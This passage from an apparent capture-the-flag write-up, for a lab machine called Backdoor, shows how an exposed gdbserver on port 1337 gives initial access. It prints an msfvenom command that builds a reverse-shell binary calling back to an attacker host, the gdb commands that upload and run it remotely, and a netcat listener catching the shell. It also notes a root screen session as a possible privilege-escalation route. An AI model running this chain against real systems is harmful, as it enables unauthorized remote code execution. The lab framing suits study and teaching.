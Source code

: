 By looking at the results we find these two `bin/sh while true;do sleep 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root \;; done` and `/bin/sh while true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done`. The screen -dmS could be a possible privesc route later, but for now it seems like it opens the 1337 port ever once in a while nad connects that to gdb server. So now we know what program we need to connect to it!

# The exploit for initial foodhold
https://sourceware.org/gdb/onlinedocs/gdb/Server.html
https://book.hacktricks.xyz/pentesting/pentesting-remote-gdbserver
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 PrependFork=true -f elf -o binary.elf
chmod +x binary.elf
gdb binary.elf
# Set remote debuger target
target extended-remote 10.10.10.11:1337
# Upload elf file
remote put binary.elf binary.elf
# Set remote executable file
set remote exec-file /home/user/binary.elf
# Execute reverse shell executable
run
```
```
(gdb) target extended-remote 10.10.11.125:1337
`target:/home/user/binary.elf' has disappeared; keeping its symbols.
Remote debugging using 10.10.11.125:1337
Reading /lib64/ld-linux-x86-64.so.2 from remote target...
Reading /lib64/ld-linux-x86-64.so.2 from remote target...
Reading symbols from target:/lib64/ld-linux-x86-64.so.2...
Reading /lib64/ld-2.31.so from remote target...
Reading /lib64/.debug/ld-2.31.so from remote target...
Reading /usr/lib/debug//lib64/ld-2.31.so from remote target...
Reading /usr/lib/debug/lib64//ld-2.31.so from remote target...
Reading target:/usr/lib/debug/lib64//ld-2.31.so from remote target...
(No debugging symbols found in target:/lib64/ld-linux-x86-64.so.2)
0x00007ffff7fd0100 in ?? () from target:/lib64/ld-linux-x86-64.so.2
(gdb) remote put binary.elf binary.elf
Successfully sent file "binary.elf".
(gdb) set remote exec-file /home/user/binary.elf
(gdb) run
The program being debugged has been started already.
Start it from the beginning? (y or n) y
`target:/home/user/binary.elf' has disappeared; keeping its symbols.
Starting program:  
Reading /home/user/binary.elf from remote target...
Reading /home/user/binary.elf from remote target...
Reading symbols from target:/home/user/binary.elf...
(No debugging symbols found in target:/home/user/binary.elf)
┌──(kali㉿kali)-[~/Documents/HTB/Backdoor]                                                                                                                                                                                                  
└─$ nc -nvlp 6969                                                                                                                                                                                                                           
listening on [any] 6969 ...                                                                                                                                                                                                                 
                                                                                                                                                                                                                                            
ls                                                                                                                                                                                                                                          
```
